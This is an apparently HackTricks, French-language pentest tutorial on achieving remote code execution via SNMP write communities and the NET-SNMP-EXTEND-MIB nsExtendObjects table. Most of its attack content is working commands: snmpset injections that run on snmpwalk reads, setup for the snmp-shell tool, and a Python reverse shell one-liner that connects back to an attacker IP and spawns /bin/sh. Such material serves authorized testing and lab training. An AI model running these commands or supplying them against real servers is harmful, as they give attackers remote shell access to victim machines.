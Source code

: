 <details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

# SNMP RCE

SNMP peut être exploité par un attaquant si l'administrateur néglige sa configuration par défaut sur l'appareil ou le serveur. En **abusant de la communauté SNMP avec des permissions d'écriture (rwcommunity)** sur un système d'exploitation Linux, l'attaquant peut exécuter des commandes sur le serveur.

## Étendre les services avec des commandes supplémentaires

Pour étendre les services SNMP et ajouter des commandes supplémentaires, il est possible d'ajouter de nouvelles **lignes à la table "nsExtendObjects"**. Cela peut être réalisé en utilisant la commande `snmpset` et en fournissant les paramètres nécessaires, y compris le chemin absolu vers l'exécutable et la commande à exécuter :
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```
## Injection de commandes pour exécution

L'injection de commandes à exécuter sur le service SNMP nécessite l'existence et la possibilité d'exécuter le binaire/script appelé. Le **`NET-SNMP-EXTEND-MIB`** exige de fournir le chemin absolu vers l'exécutable.

Pour confirmer l'exécution de la commande injectée, la commande `snmpwalk` peut être utilisée pour énumérer le service SNMP. **Le résultat affichera la commande et ses détails associés**, y compris le chemin absolu :
```bash
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```
## Exécution des commandes injectées

Lorsque **la commande injectée est lue, elle est exécutée**. Ce comportement est connu sous le nom de **`run-on-read()`**. L'exécution de la commande peut être observée pendant la lecture snmpwalk.

### Obtenir un Shell Serveur avec SNMP

Pour prendre le contrôle du serveur et obtenir un shell serveur, un script python développé par mxrch peut être utilisé depuis [**https://github.com/mxrch/snmp-shell.git**](https://github.com/mxrch/snmp-shell.git).

Alternativement, un reverse shell peut être créé manuellement en injectant une commande spécifique dans SNMP. Cette commande, déclenchée par le snmpwalk, établit une connexion reverse shell vers la machine de l'attaquant, permettant de contrôler la machine victime.
Vous pouvez installer la pré-requis pour exécuter ceci :
```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```
Ou un shell inversé :
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```
# Références
* [https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/)


<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
